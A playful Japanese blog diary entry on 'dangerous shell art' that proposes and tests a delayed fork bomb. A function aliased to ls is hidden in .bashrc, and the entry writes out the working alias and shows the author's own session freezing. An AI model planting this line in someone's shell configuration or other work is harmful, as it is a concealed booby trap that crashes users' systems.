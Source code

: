 ```yaml
---
Keywords: どうでもいい,危険シェル芸,帰る,日記,フォーク爆弾,シェル芸,頭の中だだ漏らし
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 時間差フォーク爆弾の提案と実行 #危険シェル芸
本日は大変痛ましい事故が起こりました。私を訪ねてきた学生さんが一人、危険シェル芸の犠牲になりました。最大のリスクは生きることです。社会人になったら誰も守ってくれません。強く生きましょう。

さて、その後始末の時に、時間差危険シェル芸（より正確には時間差フォーク爆弾）を思いつきました。

アイデアはこんな感じ。過去に同じことを考えた人はいるでしょうが・・・。

<ul>
 <li>ステップ1: .bashrc等にフォーク爆弾の関数を仕込んでおく（lsとかそういう人気のある名前で）</li>
 <li>ステップ2: lsと打つ。</li>
 <li>ステップ3: 死ぬ。</li>
</ul>


<h2>検証</h2>

やってみました。VMで・・・と言いたいところですが、ノートPCを買い換えた時にVMを消してしまいました。某Ubuntu環境でやります。<span style="color:red">ツッコミは厳禁。</span>

ログインしたら、.bashrcの一番下に次のように書きます。書き間違えると不発弾になって後世に迷惑がかかるのでやめましょう（消せよ）。

[bash]
ueda\@remote:~$ tail -n 1 .bashrc 
alias ls='ls(){ ls | ls &amp;} ; ls'
[/bash]

一度ログアウト。sourceしてもいいのですが、ログイン即身成仏を狙います。

ということでログインして即実行。

[bash]
ueda\@remote:~$ ls
[1] 18531
ueda\@remote:~$ 
[1]+ 終了 ls | ls
ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ 

ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ 
ueda\@remote:~$ vi .bashr
（消息を断つ。）
[/bash]

大成功。ちょっとログ等で確認が取れませんが・・・。

<span style="color:red">.bashrcからエイリアスを消した直後、まだ設定が残っているのに間違ってlsを打ってしまい再度死んだのは秘密にする。</span>


帰る。というか今横須賀線車内・・・。


何をやっているのか。
